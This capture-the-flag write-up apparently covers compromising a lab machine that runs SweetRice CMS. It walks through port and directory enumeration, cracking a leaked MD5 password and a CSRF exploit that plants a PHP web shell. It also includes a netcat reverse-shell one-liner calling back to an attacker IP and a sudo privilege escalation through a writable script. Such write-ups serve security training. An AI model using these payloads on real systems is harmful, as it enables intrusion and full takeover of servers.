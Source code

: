 
![](https://i.imgur.com/DkrBfaO.png)

## initial Enumeration

```bash
❯ nmap -sCV 10.10.115.33
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-19 01:26 WAT
Nmap scan report for 10.10.115.33
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.12 seconds
```

- visit port `80`:

![](https://i.imgur.com/kDjN4v9.png)

- now let FUZZ for hidden directory:
```bash
ffuf -u http://10.10.115.33/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -fs 11321
```

![](https://i.imgur.com/WYKjB7P.png)

- we found `/contents` let see what's there:

![](https://i.imgur.com/R030OIj.png)

- nothing much there let `fuzz` for sub-directories here:

```bash
ffuf -u http://10.10.115.33/content/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -fs 2198
```

![](https://i.imgur.com/WT1SzvS.png)

- okay i was checking the directories one-by-one and found some cool stuff in the `/content/inc/` and `/content/as/`

![](https://i.imgur.com/VnmKlYN.png)

![](https://i.imgur.com/QfNHJ9s.png)

![](https://i.imgur.com/CoinEPP.png)

- i found a hash in the `databasefile` , now let crack it:
- the hash is likely an `md5` hash

![](https://i.imgur.com/dgaUifb.png)

![](https://i.imgur.com/VSBQzc2.png)

- no going to the `/content/as` directory it has a log-in form so i test the manager creds i just crack and it works:

![](https://i.imgur.com/sPeiSo6.png)


- from the above screen i was able to see the version of the `SweetRice` CMS, so i searched for possible exploit:

![](https://i.imgur.com/PL8CIpd.png)

![](https://i.imgur.com/swPQsTy.png)

- i edited the code to fit my need:

```html

<html>
<body onload="document.exploit.submit();">
<form action="http://10.10.115.33/content/as/?type=ad&mode=save" method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
<textarea type="hidden" name="adv">
<?php
echo '<h1> Hacked </h1>';
phpinfo();?>
&lt;/textarea&gt;
</form>
</body>
</html>

<!--
# After HTML File Executed You Can Access Page In
http://10.10.115.33/content/inc/ads/hacked.php
  -->
```

- i save the exploit into a `.html` file and on my terminal i run `Firefox <filename.html>` , this will open up Firefox and execute the payload against the `SweetRice` server:

![](https://i.imgur.com/i6RPt61.png)

- when it open up your Firefox click on the tick sign and visit  `http://10.10.115.33/content/inc/ads/hacked.php` to confirm the `POC`:

![](https://i.imgur.com/39fraQy.png)

- now i can modify the exploit to get a webshell/reverse shell:

```html 
<html>
<body onload="document.exploit.submit();">
<form action="http://10.10.115.33/content/as/?type=ad&mode=save" method="POST" name="exploit">
<input type="hidden" name="adk" value="webshell"/>
<textarea type="hidden" name="adv">
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>

</form>
</body>
</html>

<!--
# After HTML File Executed You Can Access Page In
http://10.10.115.33/content/inc/ads/webshell.php
  -->

```

- i save the exploit into a `.html` file and on my terminal i run `Firefox <filename.html>` , this will open up Firefox and execute the payload against the `SweetRice` server:

- when it open up Firefox don't forget to click on the tick box and visit the url `http://10.10.115.33/content/inc/ads/webshell.php`

![](https://i.imgur.com/OIa468B.png)

![](https://i.imgur.com/pEvNIhl.png)

- now i can start up a listener and enter in this reverse shell command:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.3.128 1337 >/tmp/f
```

![](https://i.imgur.com/mnUFDwM.png)

- stabilize shell with:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL Z [KEY]
stty raw -echo;fg
export TERM=xterm
stty rows 40 cols 160
```

- now we are in we can move to the `/homes` directory to check if we have permission to read the user flag:

![](https://i.imgur.com/4Q49y7w.png)

- and surprisingly we do 😂

## privilege Escalation:

running `sudo -l` i see that the `itguy` user can run sudo with a perl binary combined ith a file in his directory:

![](https://i.imgur.com/k5SKVuP.png)

- but the `itguy` user don't have `WRITE` permission to the file only read
-  so i check the content of the file and found that that file is execute another file the the `itguy` has `WRITE` permissions too 🥲:

![](https://i.imgur.com/UrFXpjf.png)

- so what i we have to do is change the content of the `copy.sh` file to a reverse shell code so when it execute we will get a root shell:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.3.128 1336 >/tmp/f
```

![](https://i.imgur.com/OAuZM3n.png)

- then execute the command we have sudo privilege with (start listener first):

![](https://i.imgur.com/G9qNPig.png)

![](https://i.imgur.com/G6MBSWg.png)

- root flag:

![](https://i.imgur.com/teB0pG4.png)

## Thanks For reading 🤗
